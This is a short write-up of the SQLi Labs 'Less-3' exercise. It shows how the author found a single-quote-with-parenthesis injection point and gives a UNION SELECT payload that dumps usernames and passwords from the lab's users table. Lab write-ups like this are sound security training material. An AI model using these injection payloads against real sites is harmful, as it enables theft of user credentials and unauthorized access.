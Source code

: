 Hello guys,

This is the write-up for Less-3 'GET - Error based - Single quotes with twist - string' from SQLi Labs.

So getting started,

using a single quote and comment after the numeric parameter for id
``` ?id = 1' -- -```,
an error is returned.
``` You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1 ```

so the input after id is not going into a simple ```... WHERE id = '<input>' ...;```

So trying out an alternate possibility where the input might be going into a ```... WHERE id = ('<input>')...;```

We can end the numeric paramenter after id with a ```')``` and then use UNION to execute another query which will help us.

Using ``` [URL]/?id=-1') UNION SELECT 1, group_concat(username,0x7c,password),3 FROM users -- - ```,

we get the login dump printed on the site.


